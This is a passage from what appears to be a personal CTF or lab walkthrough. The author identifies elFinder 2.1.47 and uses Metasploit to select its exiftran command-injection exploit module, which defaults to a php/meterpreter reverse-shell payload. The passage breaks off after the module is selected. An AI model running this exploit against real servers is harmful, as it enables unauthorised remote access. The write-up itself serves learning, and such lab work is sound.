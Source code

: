 Let's try login with these : nothing . neither is [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) .

Searching about the software we find it is a _web file manager_ , let's catch the version :

![Pasted image 20250719154206.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250719154206.png)

## Metasploit

Let's search with [Metasploit](../../3%20-%20Tags/Hacking%20Tools/Metasploit.md) for **elFinder 2.1.47** :

```
search emsf6 > search elFinder 2.1.47

Matching Modules
================

   #  Name                                                               Disclosure Date  Rank       Check  Description
   -  ----                                                               ---------------  ----       -----  -----------
   0  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection  2019-02-26       excellent  Yes    elFinder PHP Connector exiftran Command Injection                                                                 


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection                                                                                   

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

```
